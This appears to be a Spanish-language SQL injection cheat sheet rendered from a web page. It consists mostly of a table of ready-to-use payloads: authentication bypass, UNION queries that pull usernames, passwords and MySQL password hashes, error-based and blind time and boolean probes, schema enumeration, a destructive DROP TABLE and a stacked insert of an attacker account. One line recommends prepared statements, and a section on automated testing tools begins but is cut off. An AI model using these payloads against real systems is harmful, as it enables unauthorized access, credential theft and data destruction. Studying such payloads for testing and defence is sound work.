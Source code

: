 | **Tipo de Payload**        | **Payload de Inyección SQL**                                                                                             | **Descripción**                                                                                          |
|---------------------------|------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------|
| **Bypass de Autenticación**| `' OR 1=1 --`                                                                                                           | Omite el inicio de sesión haciendo que la condición sea siempre verdadera.                                |
| **Extraer Datos**          | `' UNION SELECT username, password FROM users --`                                                                       | Recupera nombres de usuario y contraseñas de la tabla `users` utilizando la palabra clave `UNION`.        |
| **Inyección Basada en Errores** | `1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.tables GROUP BY x) a) -- ` | Fuerza un error para revelar el nombre de la base de datos y detalles de su estructura. |
| **Inyección Basada en Unión** | `' UNION SELECT null, null, database(), null --`                                                                        | Devuelve el nombre actual de la base de datos utilizando una consulta `UNION`.                             |
| **Inyección Ciega Basada en Tiempo** | `1' AND IF(1=1, SLEEP(5), 0) --`                                                                                        | Retrasa la respuesta 5 segundos si la condición es verdadera (útil para inyección SQL ciega). |
| **Inyección Ciega Basada en Booleanos** | `1' AND 1=1 -- `                                                                                                        | Esto evalúa como verdadero y la página se carga normalmente. Utilizado para deducir el comportamiento de la base de datos. |
| **Extraer Nombres de Columnas** | `' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --`                                | Recupera todos los nombres de las columnas de la tabla `users`. |
| **Inyección con Comentarios** | `1'; DROP TABLE users -- `                                                                                              | Elimina la tabla `users` terminando la consulta y agregando una instrucción SQL maliciosa. |
| **Consultas Apiladas (MySQL)**| `1'; INSERT INTO users (username, password) VALUES ('hacker', '12345') --`                                              | Ejecuta dos consultas: una regular y una maliciosa (insertando un nuevo usuario). |
| **Extraer Versión de MySQL** | `' UNION SELECT @@version, null, null --`                                                                               | Recupera la versión de MySQL usando `@@version`. |
| **Verificar Usuario de la Base de Datos** | `' UNION SELECT user(), null, null --`                                                                                  | Devuelve el usuario actual de la base de datos. |
| **Extraer Todos los Nombres de Bases de Datos** | `' UNION SELECT schema_name FROM information_schema.schemata --`                                                        | Recupera los nombres de todas las bases de datos en el servidor. |
| **Recuperar Hashes de Contraseñas** | `' UNION SELECT username, password FROM mysql.user --`                                                               | Recupera nombres de usuario y hashes de contraseñas de la tabla `user` de MySQL. |
| **Inyección Ciega (Verdadero)**| `1' AND 1=1 -- `                                                                                                        | Inyección ciega basada en booleanos. La consulta siempre devuelve verdadero. |
| **Inyección Ciega (Falso)**| `1' AND 1=2 -- `                                                                                                       | Inyección ciega basada en booleanos. La consulta devolverá falso, útil para deducir la estructura de la base de datos. |

---

### Notas:
- Las **inyecciones basadas en unión** a menudo combinan la consulta original con una segunda consulta para extraer datos.
- Los **payloads basados en errores** buscan provocar un error que revele la estructura o el contenido de la base de datos.
- Los **payloads basados en tiempo** introducen retrasos para inferir condiciones verdadero/falso en ataques de inyección SQL ciega.
- Las **consultas apiladas** pueden ejecutar múltiples comandos SQL en una sola solicitud, típicamente utilizadas cuando el backend permite múltiples comandos SQL en una consulta.

Al usar estos payloads y entender cómo funciona cada uno, los atacantes pueden manipular consultas de bases de datos de diversas formas, dependiendo de la vulnerabilidad de la aplicación y la base de datos subyacente. Sin embargo, para prevenir estos ataques, todas las entradas deben manejarse de manera segura usando sentencias preparadas y validación adecuada de entradas.

## Pruebas Automáticas de Inyección SQL

Puedes realizar pruebas automáticas de inyección SQL utilizando diversas herramientas diseñadas para identificar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Estas herramientas ayudan a automatizar el proceso de prueba, detección e incluso explotación de posibles fallos de inyección SQL.
